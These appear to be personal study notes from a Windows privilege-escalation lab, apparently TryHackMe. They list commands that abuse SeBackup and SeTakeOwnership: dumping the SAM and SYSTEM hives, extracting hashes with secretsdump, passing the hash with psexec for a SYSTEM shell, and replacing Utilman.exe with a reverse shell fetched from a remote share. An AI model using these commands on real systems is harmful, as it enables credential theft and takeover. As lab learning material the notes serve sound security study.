 - Rights of an account to perform specific tasks
- Can be checked with:
```powershell
whoami /priv 
```
- List of all permission can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

### SeBackup/SeRestore
[[Privileges#SeBackup/SeRestore]]
- SYSTEM and SAM hives can be backed up using : 
```powershell
# backup SYSTEM
reg save HKLM\SYSTEM C:\User\THMBackup\system.hive

# backup SAM
reg save HKLM\SAM C:\User\THMBackup\sam.hive
```
- These files can be used to extract hashes of users password using impacket's secretsdump [[Impacket#secretsdump.py]]
```bash
# Dump the local account hashes using system.hive and sam.hive
secretsdump.py -system system.hive -sam sam.hive LOCAL
```
- Administrator hashes can be used to perform pass the hash attack to gain system shell.
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.112.124

# We get shell as system.
C:\Windows\System32>
```

### SeTakeOwnership
[[Privileges#SeTakeOwnership]]
- `utilman.exe` is a service tha provides ease of access setting at windows login and runs with SYSTEM privileges.
- With `SeTakeOwnership` , we can take ownership of the `utilman.exe` executable and replace it with cmd or a reverse shell.
```powershell
# Take ownership of the utilman executable
takeown /f C:\Windows\System32\Utilman.exe

# Give yourself full permission to the executable
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# Overwrite the executable with reverse shell
copy \\<ip>\public\reverse Utilman.exe

# running a listener
nv -nvlp 9999
# After locking the computer and clicking on ease of access button, we get a reverse shell.
```

### SeImpersonate
